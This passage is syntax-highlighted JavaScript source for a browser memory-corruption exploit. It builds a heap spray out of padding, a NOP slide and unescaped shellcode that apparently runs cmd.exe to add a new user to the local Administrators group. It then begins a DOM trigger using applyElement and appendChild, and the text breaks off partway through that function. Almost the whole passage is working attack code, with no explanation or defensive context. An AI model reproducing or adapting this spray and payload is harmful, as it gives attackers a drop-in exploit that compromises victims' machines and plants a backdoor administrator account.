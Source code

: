  <span class="hljs-comment">//Fix BSTR spec</span>
 <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">alloc</span><span class="hljs-params">(bytes, mystr)</span> {</span>
 <span class="hljs-keyword">while</span> (mystr.length&lt;bytes) mystr += mystr;
 <span class="hljs-keyword">return</span> mystr.substr(<span class="hljs-number">0</span>, (bytes-<span class="hljs-number">6</span>)/<span class="hljs-number">2</span>);
 }

 block_size = <span class="hljs-number">0x1000</span>;
 padding_size = <span class="hljs-number">0x5FC</span>; <span class="hljs-comment">//offset to 0x0c0c0c0c inside our 0x1000 hex block</span>
 Padding = <span class="hljs-string">''</span>;
 NopSlide = <span class="hljs-string">''</span>;

 <span class="hljs-keyword">var</span> Shellcode =
<span class="hljs-built_in">unescape</span>(<span class="hljs-string">'%ud231%u30b2%u8b64%u8b12%u0c52%u528b%u8b1c%u0842%u728b%u8b20%u8012%u0c7e%u7533%u89f2%u03c7%u3c78%u578b%u0178%u8bc2%u207a%uc701%ued31%u348b%u01af%u45c6%u3e81%u6957%u456e%uf275%u7a8b%u0124%u66c7%u2c8b%u8b6f%u1c7a%uc701%u7c8b%ufcaf%uc701%u4b68%u6e33%u6801%u4220%u6f72%u2f68%u4441%u6844%u726f%u2073%u7468%u6172%u6874%u6e69%u7369%u2068%u6441%u686d%u6f72%u7075%u6368%u6c61%u6867%u2074%u6f6c%u2668%u6e20%u6865%u4444%u2620%u6e68%u2f20%u6841%u6f72%u334b%u3368%u206e%u6842%u7242%u4b6f%u7368%u7265%u6820%u7465%u7520%u2f68%u2063%u686e%u7865%u2065%u6368%u646d%u892e%ufee5%u534d%uc031%u5550%ud7ff'</span>);

 <span class="hljs-keyword">for</span> (p = <span class="hljs-number">0</span>; p &lt; padding_size; p++){
 Padding += <span class="hljs-built_in">unescape</span>(<span class="hljs-string">'%u0c0c'</span>);}

 <span class="hljs-keyword">for</span> (c = <span class="hljs-number">0</span>; c &lt; block_size; c++){
 NopSlide += <span class="hljs-built_in">unescape</span>(<span class="hljs-string">'%u1c1c'</span>);} <span class="hljs-comment">//shellcode hou</span>
 NopSlide = NopSlide.substring(<span class="hljs-number">0</span>,block_size - (Shellcode.length + Padding.length));

 <span class="hljs-keyword">var</span> OBJECT = Padding + Shellcode + NopSlide;
 OBJECT = alloc(<span class="hljs-number">0xfffe0</span>, OBJECT); <span class="hljs-comment">// 0xfffe0 = 1mb</span>

 <span class="hljs-keyword">var</span> evil = <span class="hljs-keyword">new</span> <span class="hljs-built_in">Array</span>();
 <span class="hljs-keyword">for</span> (<span class="hljs-keyword">var</span> k = <span class="hljs-number">0</span>; k &lt; <span class="hljs-number">250</span>; k++) {
 evil[k] = OBJECT.substr(<span class="hljs-number">0</span>, OBJECT.length);
 }
 alert(<span class="hljs-string">'spray done !'</span>);


<span class="hljs-keyword">var</span> arr_div = <span class="hljs-keyword">new</span> <span class="hljs-built_in">Array</span>();
 <span class="hljs-keyword">var</span> junk=<span class="hljs-built_in">unescape</span>(<span class="hljs-string">"%u0c0c%u0c0c"</span>);
 <span class="hljs-keyword">while</span> (junk.length &lt; (<span class="hljs-number">0x100</span>- <span class="hljs-number">6</span>)/<span class="hljs-number">2</span>)
 {
    junk+=junk;
 }
 <span class="hljs-function"><span class="hljs-keyword">function</span> <span class="hljs-title">helloWorld</span><span class="hljs-params">()</span> {</span>
 <span class="hljs-keyword">var</span> e0 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">var</span> e1 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">var</span> e2 = <span class="hljs-literal">null</span>;
 <span class="hljs-keyword">try</span> {
     e0 = document.getElementById(<span class="hljs-string">"a"</span>);
     e1 = document.getElementById(<span class="hljs-string">"b"</span>);
     e2 = document.createElement(<span class="hljs-string">"q"</span>);
     e1.applyElement(e2);
     e1.appendChild(document.createElement(<span class="hljs-string">'button'</span>));